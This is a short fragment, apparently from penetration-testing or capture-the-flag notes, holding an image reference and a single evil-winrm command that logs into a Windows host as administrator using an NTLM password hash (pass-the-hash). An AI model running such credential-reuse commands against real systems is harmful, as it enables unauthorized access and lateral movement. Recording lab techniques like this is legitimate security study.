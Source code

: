 ```bash
evil-winrm -u administrator -i 172.16.1.15 -H f60bec8b2cea3286e4649598dbcfe030
```

![[Pasted image 20240531142507.png]]